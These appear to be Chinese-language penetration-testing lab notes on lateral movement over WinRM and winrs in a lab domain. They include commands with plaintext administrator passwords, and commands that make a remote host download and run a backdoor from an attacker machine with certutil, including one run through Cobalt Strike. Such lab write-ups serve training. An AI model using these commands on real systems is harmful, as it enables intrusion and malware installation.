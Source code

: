   
端口扫描5985，在此之前我们先打开3.31的winrm服务  
  
```
winrm quickconfig -q
winrm set winrm/config/Client @{TrustedHosts="*"}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7INicgufXiasQVmR1oahjrdDXbCv5uLds8PRvGxTvibFJ4ja4bWzfpKI9g/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7s8tkrlCz3cMO9PNmQwzCx2Yz7ZSABOJsiaES71kozQlrOw8Np5ByicfQ/640?wx_fmt=png&from=appmsg "")  
  
  
扫端口发现3.31和3.32的5985端口开放，可以通过此方法来横向移动。  
  
  
2.连接执行：通过winrs来执行远程命令  
  
```
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 whoami
winrs -r:192.168.3.21 -u:192.168.3.21\administrator -p:Admin12345 whoami
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7Q2o3yDqOl78H6WriciaTntL1KxC5emiahyVS8YXwFecqH8feOSIia2RWeg/640?wx_fmt=png&from=appmsg "")  
  
  
反弹shell就是让他下载后门然后执行即可。  
  
  
winrs -r:192.168.3.32 -u:192.168.3.32\administrator -p:admin!@#45 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/3232.exe 3232.exe & 3232.exe"  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7bntVFicNWib3K7wNSjg69MEVIjlb1ohe8OxicVPB1hKZOicGo6Jdg0U8sg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7rSBSFLyauKaFRupbsibZ9lLKpricz4zbITnQlc50HTicVBSiaLWbIQVsGg/640?wx_fmt=png&from=appmsg "")  
  
  
上述操作是在本机上进行的，是由图形化界面的，但是在cs上执行不了。。鸡肋了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7r5SySKwueeWRRV2S4TCNGofjrQqFA0yIFJUWG9Gl2912g8G3a3Mp3w/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7XdtsafObFKw6jRXuwM0iba1xnXyfxKkRDn3gjPEehkHZUnjAZBWMGEA/640?wx_fmt=png&from=appmsg "")  
  
  
这又是为啥呢？小迪表示是cs命令终端的回显导致的。  
  
  
实战中不太现实。解决办法也是有的，如下所示：（通过winrm.cmd来进行命令执行）  
  
  
shell winrm invoke Create wmicimv2/win32_process @{CommandLine="cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/3232.exe 3232.exe & 3232.exe"} -r:sqlserver -u:sqlserver\administrator -p:admin!@#45  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTpmmO0638ibpHd5HIxhCavU7jWCm1GibdVzbGwfPRAuAwTJkgfJX5lMXlD4icCR2gf53somSiaSCPXFIg/640?wx_fmt=png&from=appmsg "")  
  